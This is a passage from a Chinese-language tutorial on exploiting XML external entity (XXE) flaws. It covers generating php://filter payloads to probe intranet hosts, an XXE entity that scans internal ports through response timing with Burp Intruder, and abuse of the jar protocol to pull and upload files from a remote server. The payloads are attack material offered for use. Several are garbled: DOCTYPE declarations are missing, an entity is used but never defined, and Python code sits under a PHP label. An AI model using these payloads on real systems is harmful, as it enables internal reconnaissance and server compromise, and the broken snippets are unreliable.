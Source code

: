 ```php
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
        print string
        build_xml(string)
    except:
        continue
```

## 1.6、内网端口扫描

使用以下payload进行端口扫描，通过响应时间来判断端口是否开放，利用Burp Suite等工具设置循环遍历端口，自动化进行端口探测，将扫描出来的资产进行相应端口的漏洞利用。

```php
<?xml version="1.0" encoding="utf-8"?> 

<!ENTITY xxe SYSTEM "http://127.0.0.1:80" >]>
<user>
<username>&xxe;</username>
<password>1</password>
</user>

可使用burpsuite的intruder模块进行遍历
```

## 1.7、文件上传

我们前面说过Java环境下支持jar协议，jar 能从远程获取 jar 文件，然后将其中的内容进行解压

jar 协议处理文件的过程：

(1) 下载 jar/zip 文件到临时文件中  
(2) 提取出我们指定的文件  
(3) 删除临时文件

```php
<?xml version="1.0" encoding="utf-8"?> 

]>

<user><username>&remote;</username><password>1</password></user>
```

200上传成功

![image.png](assets/1700812438-6a17f1ddc0ccee325919127c657f1c8c.png)
